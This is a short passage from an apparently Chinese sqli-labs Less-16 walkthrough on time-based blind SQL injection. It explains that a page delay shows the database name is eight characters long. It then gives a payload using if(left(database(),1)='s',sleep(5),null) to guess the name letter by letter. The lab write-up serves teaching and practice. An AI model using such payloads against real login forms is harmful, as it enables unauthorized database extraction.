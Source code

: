 ![Less-16_5](./img/Less-16_5.PNG)

页面有延迟，说明数据库名长度是8



+ 爆联合数据库名，从左边第一个字母开始，判断库名第一个字母是不是`s`

~~~ shell
admin") and if(left(database(),1)='s',sleep(5),null) #

......
~~~

![Less-16_6](./img/Less-16_6.PNG)

